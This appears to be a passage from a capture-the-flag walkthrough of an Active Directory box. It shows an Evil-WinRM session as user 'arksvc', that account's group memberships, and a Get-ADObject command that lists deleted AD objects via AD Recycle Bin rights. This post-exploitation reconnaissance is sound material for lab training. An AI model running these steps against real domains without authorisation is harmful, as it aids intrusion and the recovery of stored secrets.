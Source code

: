 ```bash
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\arksvc\Documents> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 4:18:20 PM
Password expires             Never
Password changeable          1/9/2020 4:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 9:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```
{: .nolineno}

Since this user arksvc is a part of AD Recycle Bin that means this user have capability to see the deleted items in AD.

## **[AD Recycle Bin](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#a-d-recycle-bin)**

This group gives you permission to read deleted AD object. Something juicy information can be found in there:

```bash
#This isn't a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects

Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
{: .nolineno}
